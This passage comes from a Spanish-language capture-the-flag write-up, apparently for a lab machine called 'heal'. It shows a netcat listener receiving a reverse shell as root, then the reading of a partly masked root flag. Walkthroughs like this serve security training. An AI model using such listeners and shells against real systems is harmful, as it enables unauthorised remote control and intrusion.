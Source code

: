 Volviendo a la terminal, nos encontramos que hemos logrado obtener acceso y en este caso somos el usuario `root`. Verificamos la flag de **root.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.46] 35072
bash: cannot set terminal process group (12578): Inappropriate ioctl for device
bash: no job control in this shell
root@heal:/# cat /root/root.txt
cat /root/root.txt
5bcfe05b5dd*********************
```
